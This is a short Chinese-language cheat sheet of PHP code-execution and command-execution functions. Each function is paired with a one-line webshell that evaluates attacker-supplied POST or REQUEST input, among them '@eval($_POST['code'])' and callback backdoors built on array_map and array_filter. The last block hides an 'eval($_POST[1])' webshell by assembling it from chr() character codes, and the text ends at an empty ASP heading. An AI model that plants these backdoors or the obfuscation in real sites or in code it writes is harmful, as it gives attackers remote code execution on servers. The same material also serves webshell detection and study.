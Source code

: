 #### php

PHP代码执行函数：eval(),assert(),preg_replace(),create_function(),array_map(),

call_user_func(),call_user_func_array(),array_filter()

1. eval()方法将输入的内容进行格式化为可执行代码

   `@eval($_POST['code']);`

2. assert()同eval()

   `assert($_POST['code']);`

3. preg_replace(re_expr,code,str)正则表达式替换

   `preg_replace("/test/e",$_POST["cmd"],"jutst test");`

4. create_function($uname,$upass,"retrun \$uname .$upass;'')  **php -v <7.2**

   `$func =create_function('',$_POST['cmd']);$func();`

5. array_map()函数将用户自定义函数作用到数组中每个值上，并返回用户自定义函数作用后的带有新值的数组，回调函数接受的参数数目应该与传递的参数数目一致

   `array_map($func,$array)`

   ```php
   $func = $_REQUEST['func'];
   $array[0] = $_REQUEST['cmd'];
   $new_array = array_map($func,$array)
   ```

6. array_filter()依次将array数组中的每个值传递到回调函数，函数若返回true，则array数组中的值会被包含在返回的结果数组中，数组的键名保持不变

   ```php
   <?php
       $cmd = $_REQUEST['cmd'];
   	$array1 = array($cmd);
   	$func = $_REQUEST['func'];
   	array_filter($array1,$func);
   ?>
   ```

   

PHP命令执行函数：

system(),exec(),popen(),passthru(),shell_exec()

@表示执行错误不会报错。

```php
$_uU=chr(99).chr(104).chr(114); //chr
$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(49).$_uU(93).$_uU(41).$_uU(59);

eval($_POST[1]);

99 114 101 97 116 101 95 102 117 110 99 116 105 111 110  //
```

#### asp
